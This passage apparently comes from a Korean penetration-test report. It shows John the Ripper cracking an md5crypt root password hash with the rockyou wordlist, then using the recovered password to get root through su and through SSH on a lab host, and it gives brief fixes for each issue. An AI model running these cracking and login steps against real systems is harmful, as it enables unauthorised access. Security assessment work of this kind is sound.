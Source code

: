```sh
 HASH: $1$BcBHqupt$IsJVqcoWOKszdTQODEn0H1

Possible Hashs:
[+] MD5(Unix)
--------------------------------------------------\

┌──(kali㉿kali)-[~/observer]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt root_pass

Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
larissa          (?)   #root 패스워드  
1g 0:00:00:00 DONE (2024-08-22 04:02) 33.33g/s 96000p/s 96000c/s 96000C/s my3kids..skater1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

크래킹 성공 후 크래킹한 패스워드를 사용하여 root 계정으로 권한 상승을 성공했다.
```sh
su
root@172.31.157.1's password:

# id;hostname;whoami
uid=0(root) gid=0(root) groups=0(root)
ip-172-31-157-1
root
```

#### 대응 방안
 - md5 해시함수가 아닌 sha-256 등의 취약하지 않는 해시함수를 사용한다.

#### 레퍼런스

### 6. ssh root 접속 허용
#### 취약점 개요

|정보|설명|
|----|----|
|이름|ssh root 접속 허용|
|중요도|상|

#### 취약점 설명
ssh root 접속을 허용하여 임의의 공격자가 원격으로 root 계정으로 로그인할 수 있다. root 유저로 원격접속을 할 경우 어떠한 user가 접속하였는지 확인이 불가능 하다.

#### 개념 증명
ssh를 통하여 크래킹한 root 패스워드로 로그인 시도하니 원격 접속 성공한 것을 확인할 수 있다.
```sh
┌──(kali㉿kali)-[~/observer]
└─$ ssh root@172.31.157.1
root@172.31.157.1's password:
root@ip-172-31-157-1:~#
```
